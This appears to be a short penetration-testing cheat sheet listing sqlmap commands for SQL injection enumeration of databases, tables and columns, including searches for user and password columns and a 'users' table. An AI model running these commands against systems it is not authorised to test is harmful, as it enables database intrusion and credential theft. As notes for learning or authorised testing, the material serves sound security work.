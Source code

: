 # 04 - Tables and Columns

## 4.1 - Tables Enumeration

- Search particular keywords of database, tables and columns

```
$ sqlmap -u <URL> --random-agent --search -D <database> -C user,pass,username,password
```

- Retrieve relation (tables)

```
$ sqlmap -u <URL> --random-agent -D <database> --tables
```

- Count number of tables

```
$ sqlmap -u <URL> --random-agent -D <database> --tables --count
```

#### 2.2.3 - Columns Enumeration

```
$ sqlmap -u <URL> --random-agent -D <database> -T users --columns
```

TODO: Test these last two flags respectively of how it works.

```
$ sqlmap -u <URL> --random-agent --statements
```

```
$ sqlmap -u <URL> --random-agent --comments
```